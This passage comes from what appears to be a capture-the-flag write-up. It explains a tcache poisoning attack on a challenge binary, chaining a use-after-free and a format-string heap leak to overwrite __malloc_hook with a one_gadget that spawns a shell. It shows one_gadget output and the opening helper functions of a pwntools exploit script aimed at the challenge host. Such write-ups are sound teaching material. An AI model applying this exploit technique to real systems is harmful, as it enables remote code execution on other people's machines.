 ## Exploitation

The usual tcache poisonning attack we'll apply is not very complicated. We will take advantage of the UAF and of a heap leak gathered with the format string to overwrite a freed chunk `fd` pointer with a pointer to `__malloc_hook`. We will then be able to allocate a new chunk and so get a pointer to `__malloc_hook`, where we can write a [one gadget](https://github.com/david942j/one_gadget).

```
$ one_gadget libc.so
0xdf54c execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xdf54f execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xdf552 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

We will use the second one, because we can find out in gdb that the constraints for this one are already fulfilled.

We use `__malloc_hook` because its address is already properly aligned, so it's easier. That's because safe linking also makes sure the allocated chunks are properly aligned, which was not the case before.

Here is my Python script to automate this process:

```py
from pwn import *

host = "sie2op7ohko.hackday.fr"
port = 1337

exe = ELF("./chall_patched")
libc = ELF("./libc.so")

context.binary = exe

def wait_menu():
    r.recvuntil(b"----- DEFUSER -----")

def send(data):
    r.sendlineafter(b"> ", data)

def alloc(slot, size, data, only_trigger_malloc = False):
    wait_menu()
    send(b"1")
    send(str(slot).encode())
    send(str(size).encode())

    if not only_trigger_malloc:
        send(data)

def edit(slot, data):
    wait_menu()
    send(b"2")
    send(str(slot).encode())
    send(data)

```